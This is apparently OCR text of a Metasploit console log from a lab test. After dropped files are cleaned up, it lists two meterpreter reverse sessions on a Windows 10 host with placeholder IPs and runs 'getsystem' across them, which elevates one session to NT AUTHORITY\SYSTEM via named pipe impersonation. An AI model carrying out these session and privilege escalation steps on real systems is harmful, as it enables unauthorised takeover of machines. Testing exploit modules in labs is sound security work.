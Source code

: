 ```
[-] Error => Rex::Post::Meterpreter::RequestError - stdapi_fs_stat: Operation failed: The system cannot find the path specified.
[-] Error => Rex::Post::Meterpreter::RequestError - stdapi_fs_stat: Operation failed: The system cannot find the path specified.
[-] Error => Rex::Post::Meterpreter::RequestError - stdapi_fs_stat: Operation failed: The system cannot find the path specified.
[-] Error => Rex::Post::Meterpreter::RequestError - stdapi_fs_stat: Operation failed: The system cannot find the path specified.
[-] Error => Rex::Post::Meterpreter::RequestError - stdapi_fs_stat: Operation failed: The system cannot find the path specified.
[-] Error => Rex::Post::Meterpreter::RequestError - stdapi_fs_stat: Operation failed: The system cannot find the path specified.
[-] Error => Rex::Post::Meterpreter::RequestError - stdapi_fs_stat: Operation failed: The system cannot find the path specified.
[-] Error => Rex::Post::Meterpreter::RequestError - stdapi_fs_stat: Operation failed: The system cannot find the path specified.
[-] Error => Rex::Post::Meterpreter::RequestError - stdapi_fs_stat: Operation failed: The system cannot find the path specified.
[-] Error => Rex::Post::Meterpreter::RequestError - stdapi_fs_stat: Operation failed: The system cannot find the path specified.
[-] Error => Rex::Post::Meterpreter::RequestError - stdapi_fs_stat: Operation failed: The system cannot find the path specified.
[-] Error => Rex::Post::Meterpreter::RequestError - stdapi_fs_stat: Operation failed: The system cannot find the file specified.
[-] Error => Rex::Post::Meterpreter::RequestError - stdapi_fs_stat: Operation failed: The system cannot find the file specified.
[+] All the dropped elements have been successfully removed
> sessions -l

Active sessions
===============

  Id  Type                     Information                            Connection
  --  ----                     -----------                            ----------
  1   meterpreter x86/windows  WIN10X86-1511\msfuser @ WIN10X86-1511  <MSF_IP>:30009 -> <Win10x86_IP>:50041 (<Win10x86_IP>)
  2   meterpreter x86/windows  WIN10X86-1511\msfuser @ WIN10X86-1511  <MSF_IP>:30010 -> <Win10x86_IP>:50078 (<Win10x86_IP>)

> sessions -C getuid
[*] Running 'getuid' on meterpreter session 1 (<Win10x86_IP>)
Server username: WIN10X86-1511\msfuser
[*] Running 'getuid' on meterpreter session 2 (<Win10x86_IP>)
Server username: WIN10X86-1511\msfuser
> sessions -C getsystem
[*] Running 'getsystem' on meterpreter session 1 (<Win10x86_IP>)
[-] priv_elevate_getsystem: Operation failed: Access is denied. The following was attempted:
[-] Named Pipe Impersonation (In Memory/Admin)
[-] Named Pipe Impersonation (Dropper/Admin)
[-] Token Duplication (In Memory/Admin)
[*] Running 'getsystem' on meterpreter session 2 (<Win10x86_IP>)
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
> sessions -C getuid
[*] Running 'getuid' on meterpreter session 1 (<Win10x86_IP>)
Server username: WIN10X86-1511\msfuser
[*] Running 'getuid' on meterpreter session 2 (<Win10x86_IP>)
Server username: NT AUTHORITY\SYSTEM
> exit -y
```
